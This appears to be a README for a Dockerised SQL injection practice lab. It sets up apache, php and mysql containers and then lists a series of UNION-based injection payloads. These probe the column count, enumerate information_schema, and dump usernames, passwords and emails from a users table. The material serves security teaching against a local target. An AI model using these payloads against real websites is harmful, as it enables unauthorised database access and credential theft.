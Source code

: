 # Start all three containers apache, php and mysql
docker-compose up
Notice how these 3 daemons run on PID 1 inside of each container, this is considered a best-practice for building containers!

# Test connection
curl localhost:8080

Notice now in the logs that the apache container and php containers both respond to the request, as desired:
php_1     | 172.18.0.4 -  16/Jul/2018:02:09:22 +0000 "GET /index.php" 200
apache_1  | 172.18.0.1 - - [16/Jul/2018:02:09:22 +0000] "GET / HTTP/1.1" 200 108



# Initialize database named injectionAttack on the mysql container
docker exec -it sql_injection_mysql_1 mysql -u root -p -e "Use injectionAttack; $(cat ./mysql/db-init.sql)"
## Enter password as when prompted


';-- 

pillows' UNION (SELECT 1,2,3,4,5 FROM dual);-- 

pillows' UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3, 4, 5 FROM information_schema.tables);-- 

pillows' UNION (SELECT COLUMN_NAME, 2, 3, 4, 5 FROM information_schema.columns WHERE TABLE_NAME = 'users');-- 

pillows' UNION (SELECT id, username, psswd, email, description FROM users);-- 